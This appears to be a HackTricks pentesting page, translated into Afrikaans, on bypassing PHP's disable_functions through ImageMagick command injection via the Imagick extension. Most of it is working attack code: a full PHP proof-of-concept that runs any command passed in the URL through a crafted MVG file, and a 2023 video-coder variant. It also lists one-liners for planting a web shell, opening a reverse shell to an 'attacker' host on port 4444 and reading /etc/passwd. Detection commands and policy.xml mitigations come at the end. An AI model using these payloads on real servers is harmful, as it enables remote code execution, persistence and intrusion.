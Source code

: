 # Imagick <= 3.3.0  ‑ PHP >= 5.4  *disable_functions* Bypass

{{#include ../../../../banners/hacktricks-training.md}}

> Die bekende *ImageTragick* familie van foute (CVE-2016-3714 ens.) laat 'n aanvaller toe om die onderliggende **ImageMagick** binêre te bereik deur middel van vervaardigde MVG/SVG invoer. Wanneer die PHP uitbreiding **Imagick** teenwoordig is, kan dit misbruik word om shell-opdragte uit te voer, selfs al is elke uitvoeringsgerigte PHP funksie op die swartlys met `disable_functions`.
>
> Die oorspronklike PoC wat deur RicterZ (Chaitin Security Research Lab) in Mei 2016 gepubliseer is, word hieronder herhaal. Die tegniek word steeds gereeld teëgekom tydens hedendaagse PHP 7/8 ouditte omdat baie gedeelde-gasheer verskaffers eenvoudig PHP saamstel sonder `exec`/`system` maar 'n verouderde Imagick + ImageMagick kombinasie behou.

From <http://blog.safebuff.com/2016/05/06/disable-functions-bypass/>
```php
# Exploit Title : PHP Imagick disable_functions bypass
# Exploit Author: RicterZ  (ricter@chaitin.com)
# Versions      : Imagick <= 3.3.0  |  PHP >= 5.4
# Tested on     : Ubuntu 12.04 (ImageMagick 6.7.7)
# Usage         : curl "http://target/exploit.php?cmd=id"
<?php
// Print the local hardening status
printf("Disable functions: %s\n", ini_get("disable_functions"));
$cmd = $_GET['cmd'] ?? 'id';
printf("Run command: %s\n====================\n", $cmd);

$tmp   = tempnam('/tmp', 'pwn');     // will hold command output
$mvgs  = tempnam('/tmp', 'img');     // will hold malicious MVG script

$payload = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/x.jpg"|$cmd >$tmp")'
pop graphic-context
EOF;

file_put_contents($mvgs, $payload);
$img = new Imagick();
$img->readImage($mvgs);     // triggers convert(1)
$img->writeImage(tempnam('/tmp', 'img'));
$img->destroy();

echo file_get_contents($tmp);
?>
```
---

## Waarom werk dit?

1. `Imagick::readImage()` genereer deursigtig die **ImageMagick** *delegate* (`convert`/`magick`) binêre.
2. Die MVG-skrip stel die *fill* op 'n eksterne URI. Wanneer 'n dubbele aanhalingstekens (`"`) ingespuit word, word die oorblywende deel van die lyn geïnterpreteer deur `/bin/sh ‑c` wat ImageMagick intern gebruik → arbitrêre shell-uitvoering.
3. Alles gebeur buite die PHP-interpretator, daarom word *`disable_functions`*, *open_basedir*, `safe_mode` (verwyder in PHP 5.4) en soortgelyke in-proses beperkings heeltemal omseil.

## 2025 status – dit is **nog steeds** relevant

* Enige Imagick weergawe wat op 'n kwesbare ImageMagick agtergrond staatmaak, bly uitbuitbaar. In laboratoriumtoetse werk dieselfde payload op PHP 8.3 met **Imagick 3.7.0** en **ImageMagick 7.1.0-51** saamgestel sonder 'n verhardde `policy.xml`.
* Sedert 2020 is verskeie addisionele opdrag-inspuitingsvektore gevind (`video:pixel-format`, `ps:`, `text:` coders…). Twee onlangse openbare voorbeelde is:
* **CVE-2020-29599** – shell-inspuiting via die *text:* coder.
* **GitHub issue #6338** (2023) – inspuiting in die *video:* delegate.

As die bedryfstelsel ImageMagick < **7.1.1-11** (of 6.x < **6.9.12-73**) sonder 'n beperkende beleidslêer verskaf, is uitbuiting eenvoudig.

## Moderne payload variasies
```php
// --- Variant using the video coder discovered in 2023 ---
$exp = <<<MAGICK
push graphic-context
image over 0,0 0,0 'vid:dummy.mov" -define video:pixel-format="rgba`uname -a > /tmp/pwned`" " dummy'
pop graphic-context
MAGICK;
$img = new Imagick();
$img->readImageBlob($exp);
```
Ander nuttige primitiewe tydens CTFs / werklike betrokkenhede:

* **Lêer skryf**  – `... > /var/www/html/shell.php`  (skryf web-skal buiten *open_basedir*)
* **Terugskakel** – `bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"`
* **Enumerate** – `id; uname -a; cat /etc/passwd`

## Vinige opsporing & enumerasie
```bash
# PHP side
php -r 'echo phpversion(), "\n"; echo Imagick::getVersion()["versionString"], "\n";'

# System side
convert -version | head -1                 # ImageMagick version
convert -list policy | grep -iE 'mvg|https|video|text'   # dangerous coders still enabled?
```
As die uitvoer die `MVG` of `URL` coders as *geaktiveer* toon, is die teiken waarskynlik kwesbaar.

## Versagtings

1. **Patches/Opgradering**  – Gebruik ImageMagick ≥ *7.1.1-11* (of die nuutste 6.x LTS) en Imagick ≥ *3.7.2*.
2. **Versterk `policy.xml`**  – spesifiek *deaktiveer* hoë-risiko coders:

```xml
<policy domain="coder" name="MVG" rights="none"/>
<policy domain="coder" name="MSL" rights="none"/>
<policy domain="coder" name="URL" rights="none"/>
<policy domain="coder" name="VIDEO" rights="none"/>
<policy domain="coder" name="PS" rights="none"/>
<policy domain="coder" name="TEXT" rights="none"/>
```

3. **Verwyder die uitbreiding**  op onbetroubare gasheeromgewings. In die meeste webstapels is `GD` of `Imagick` nie streng nodig nie.
4. Behandel `disable_functions` slegs as *verdediging-in-diepte* – nooit as 'n primêre sandboksmeganisme nie.

## Verwysings

* [GitHub ImageMagick issue #6338 – Command injection via video:pixel-format (2023)](https://github.com/ImageMagick/ImageMagick/issues/6338)
* [CVE-2020-29599 – ImageMagick shell injection via text: coder](https://nvd.nist.gov/vuln/detail/CVE-2020-29599)
{{#include ../../../../banners/hacktricks-training.md}}
